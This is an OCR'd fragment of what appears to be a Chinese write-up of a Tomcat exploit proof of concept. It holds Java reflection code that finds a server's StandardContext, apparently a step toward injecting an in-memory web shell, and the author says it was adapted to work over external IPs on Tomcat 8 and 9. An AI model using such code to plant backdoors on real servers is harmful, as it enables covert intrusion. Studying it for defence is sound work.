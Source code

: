                     }  
                    if (engine == null) {  
                        engine = (StandardEngine) getField(service, "engine");  
                    }  
      
                    children = (HashMap) getField(engine, "children");  
                    StandardHost standardHost = (StandardHost) children.get(serverName);  
              if (standardHost == null){  
                        for (Object key: children.keySet()){  
                            Object o = children.get(key);  
                            if (o.getClass().equals(StandardHost.class)){  
                                standardHost = (StandardHost) o;  
                            }else {  
                                throw new RuntimeException();  
                            }  
                        }  
                    }  
                    children = (HashMap) getField(standardHost, "children");  
                    Iterator iterator = children.keySet().iterator();  
                    while (iterator.hasNext()) {  
                        String contextKey = (String) iterator.next();  
                        if (!(uri.startsWith(contextKey))) {  
                            continue;  
                        }  
                        StandardContext s = (StandardContext) children.get(contextKey);  
                        return s;  
      
                    }  
                }  
            }  
            return  null;  
        }  
      
        private Object getField(Object obj, String fieldName) throws Exception{  
            Class<?> objclass = obj.getClass();  
            while (objclass != obj){  
                try {  
                    Field declaredField = objclass.getDeclaredField(fieldName);  
                    declaredField.setAccessible(true);  
                    return declaredField.get(obj);  
      
                }catch (Exception e){  
                }  
                objclass = objclass.getSuperclass();  
            }  
            return null;  
      
        }  
    }  
    

>
> 这里修改了一下参考的poc,在请求为localhost的时候是正常运行的,但是一旦用外网ip来访问,或者使用域名的话,就会报空指针异常,所以修改了一下代码

我这里测试了8和9的tomcat,7版本需要改一些东西
